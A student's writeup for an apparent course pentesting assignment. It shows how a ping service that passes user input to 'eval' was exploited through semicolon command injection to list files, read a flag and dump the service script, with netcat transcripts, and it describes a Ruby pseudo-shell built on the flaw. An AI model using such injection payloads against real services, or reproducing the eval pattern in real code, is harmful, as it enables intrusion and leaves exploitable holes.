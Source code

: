 # Writeup 2 - Pentesting

Name: Marco Roxas
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Marco Roxas

## Assignment Writeup

### Part 1 (45 pts)

In summary, the steps taken were:

- Experimented with accepted input (ip address, eg, 157.230.179.99, 8.8.8.8, localhost)
- Experimented with the semicolon as it's a common command line injection technique (eg, ;ls, ;whoami)
- Tried ;ls home (led to flag)
- Tried ;ps aux (led to opt/container_startup.sh)

By starting with an IP address to see the response and then experimenting with different inputs (especially the semicolon, which delimits a command and starts a new one) and corresponding responses, it became apparent that the input was being run as part of the ping command. After some experiments the IP address was dropped and just the semicolon was typed and then the command. Some commands I tried were ls and whoami.

But it was odd at first because the connection would time out and it wasn't obvious that spaces were allowed in the input. I initially thought that only single keywords were allowed. So I tried various quote characters and double-dashes to get around to what I thought was a single-keyword limitation. Multiple commands were tried as well, separated by varying spaces, but with not much luck.

Fortunately I realized I could include spaces (which overcame a serious limitation) and was able to look in the /home directory and cat the flag.

  Good! Here's your flag: CMSC389R-{p1ng_as_a_$erv1c3}

Just by habit I tried ps aux and saw a script running. Not knowing what it was (I wanted to know what was in opt first) I did a find opt and cat the script, which showed how the ping script. It appears that this is the script behind the service, somehow the echo commands are redirected to the remote client and the read is taken from the client.

~~~~
#!/bin/bash

function quit {
        exit
}

echo "~~~~ WATTSAMP ENERGY ~~~~"

echo "Network Administration Panel  --  Uptime Monitor "
echo -n "Enter IP address: "
read -t 5 input || quit
>&2 echo "[$(date)] INPUT: $input"

cmd="ping -w 5 -c 2 $input"
output=$(eval $cmd)

echo "$output"
~~~~

To address this vulnerability the input can be whitelisted as a valid ip address before running the ping command.

A brief transcript is included below:

~~~~
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;ls           ;ls home

Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;find home
home
home/flag.txt


Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;cat home/flag.txt
Good! Here's your flag: CMSC389R-{p1ng_as_a_$erv1c3}


Ncat: Broken pipe.
$
at: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1 10.5  0.0  18376  2892 ?        Ss   17:11   0:00 /bin/bash /opt/container_startup.sh /bin/bash
root         7  0.0  0.0  18376  1832 ?        S    17:11   0:00 /bin/bash /opt/container_startup.sh /bin/bash
root         9  0.0  0.0  34400  2860 ?        R    17:11   0:00 ps aux


Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;find opt
opt
opt/container_startup.sh


Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;cat opt/c*
#!/bin/bash

function quit {
        exit
}

echo "~~~~ WATTSAMP ENERGY ~~~~"

echo "Network Administration Panel  --  Uptime Monitor "
echo -n "Enter IP address: "
read -t 5 input || quit
>&2 echo "[$(date)] INPUT: $input"

cmd="ping -w 5 -c 2 $input"
output=$(eval $cmd)

echo "$output"


Ncat: Broken pipe.
~~~~

### Part 2 (55 pts)

A short ruby script was written to leverage the command-line injection vulnerability.  (The script can be run as ./shell.rb under any environment with Ruby 2.x, the she-bang line might have to be changed to point to the correct path)

The script prints a menu of options to drop into a shell or download files. The shell is implemented as a loop that reads the command the user wishes to run, and then opens a network connection, runs it via command-line injection, and then presents the output to the user. The download function is implemented similarly except that the cat command is run and the resulting output is captured to a file.

The user's current directory had to be remembered between shell sessions because each session is essentially stateless. A class CdDir was created to hold this current directory and preserve it across ecah session (each command is prefixed by a cd command before the user's command).

An example command to pull is: pull /home/flag.txt flag.txt which would cat the flag file remotely and save the output into flag.txt. The pull command can be made more sophisticated by testing for the file's existence beforehand (via if [ -f file ]; then echo exists; done), and also if binary files cannot download properly the uudecode command can be used.

The CdDir does accomodate the .. (double-dot) however in the current program it treats it as a regular name.
